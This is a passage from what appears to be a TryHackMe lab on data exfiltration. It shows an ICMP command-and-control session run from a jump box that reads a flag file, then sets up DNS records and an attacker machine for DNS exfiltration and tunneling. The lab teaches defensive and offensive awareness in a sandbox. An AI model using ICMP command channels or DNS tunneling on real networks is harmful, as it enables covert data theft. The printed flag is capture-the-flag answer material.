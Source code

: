 To confirm that all communications go through the ICMP protocol, we capture the network traffic during the communication using tcpdump as the following:

![Capture ICMP traffic using tcpdump](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b7df6f586e47769bf2addbee68d69cdc.png)

Once we follow the steps, we get our flag:

```
thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
shell: getFlag
shell: [+] Check the flag: /tmp/flag.txt
shell: cat /tmp/flag.txt
shell: THM{g0t-1cmp-p4k3t!}
```

# Dns Configurations
---

## DNS Configuration

To perform exfiltration via the DNS protocol, you need to control a domain name and set up DNS records, including NS, A, or TXT. Thus, we provide a web interface to make it easy for you to add and modify the DNS records. The following domain name is set up and ready for the DNS exfiltration task: tunnel.com.

To access the website, you may visit the following link: http://10.10.39.16/ or https://10-10-39-16.p.thmlabs.com/ without the need for a VPN.

![THM DNS Changer - The Main web interface](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b8b4c25e0eb4dd04f1aea8596bf9319e.png)

Once you choose the domain name, you can add DNS records and test and reset the DNS configuration if something goes wrong.

![DNS Management for tunnel.com](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/af468d0202712ac1890f5dacb135e532.png)  

New Attacker Machine

Note that we have added a new Attacker machine in Network 2, which has the following subdomain name and IP address: 

|   |   |   |
|---|---|---|
|**Domain Name**|**IP Address**|**Network Access**|
|attacker.thm.com|172.20.0.200|Network 2|

We will be using the Attacker machine to exfiltrate in DNS and DNS tunneling scenarios. The main goal is that the Attacker machine (on Network2) can access internal network devices of Network 1 through JumpBox.  

![DNS Tunneling Goal!](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e6bf2c81281be5cf8515eeed22254643.png)  

## Nameserver for DNS Exfiltration
